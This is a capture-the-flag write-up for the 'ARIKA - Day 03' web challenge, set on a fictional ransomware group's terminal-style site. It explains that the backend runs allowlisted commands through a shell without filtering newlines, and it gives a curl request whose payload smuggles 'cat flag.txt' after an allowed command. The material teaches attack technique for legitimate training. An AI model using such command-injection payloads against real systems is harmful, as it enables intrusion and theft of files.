


# ARIKA - Day 03
**Category:** Web
**Author:**  [John Hammond](https://www.youtube.com/@_JohnHammond) 

## Challenge Prompt 

The Arika ransomware group likes to look slick and spiffy with their cool green-on-black terminal style website... but it sounds like they are worried about some security concerns of their own!

> **Note:** The password for the ZIP archive below is `arika`.

## Solution

Opening the site shows a terminal-like interface and a short list of visible commands:
```
leaks, news, contact, help, clear
```



Inspecting the application source (app.py) reveals the full allowlist:
```python
...
ALLOWLIST = ["leaks", "news", "contact", "help",
             "whoami", "date", "hostname", "clear"]
...
```

The `date` is present in the allowlist but the UI does not list it.

The backend runs the allowed command through a shell and does not sanitize or forbid newlines, we can supply a payload that contains a newline to chain commands.

Sent the following `curl` and extract the stdout:
```bash
curl -s -X POST "http://10.1.67.180:5000/" \
  -H "Content-Type: application/json" \
  -d '{"command":"date\ncat flag.txt"}' | jq -r '.stdout'
```

Output includes the date output followed by the contents of flag.txt  
